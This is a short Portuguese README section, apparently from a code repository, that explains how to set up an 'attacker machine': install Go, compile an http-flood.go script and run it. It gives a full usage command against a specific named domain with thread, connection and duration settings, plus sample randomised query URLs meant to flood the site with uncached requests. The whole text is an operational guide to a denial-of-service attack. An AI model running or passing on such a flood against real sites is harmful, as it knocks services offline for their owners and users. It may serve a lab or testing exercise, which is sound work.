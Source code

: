# Configuração da Máquina Atacante
Neste caso basta que a máquina tenha a linguagem `Go` instalada.

Para isso, basta seguir o tutorial oficial de instalação no seguinte link:
`https://golang.org/doc/install`

Com Go instalado na máquina faça a compilação do script de HTTP flood presente nesse repositório:
```
go build http-flood.go
```

Após a compilação o script estará pronto para uso.

Para acessar o menu de uso basta digitar
```
./http-flood
```

Um exemplo de uso é
```
./http-flood -url https://fatecnologia.gocdn.com.br/?s= -threads 3 -connections 10 -duration 30
```

Sendo que o paramêtro `url` informa a URL que será acessada e inserida caracteres aleatório em sequência. O parâmetro `connections` informa quantas conexões serão feitas por segundo em cada thread especificada no parâmetro `threads`, enquanto o `duration` será a duração do ataque em segundos.

Exemplo de URLs que serão requisitadas:

```
https://fatecnologia.gocdn.com.br/?s=ZD4n80Aep
https://fatecnologia.gocdn.com.br/?s=INMw1a
https://fatecnologia.gocdn.com.br/?s=4fMj73K0R
https://fatecnologia.gocdn.com.br/?s=8EXyPGd-
```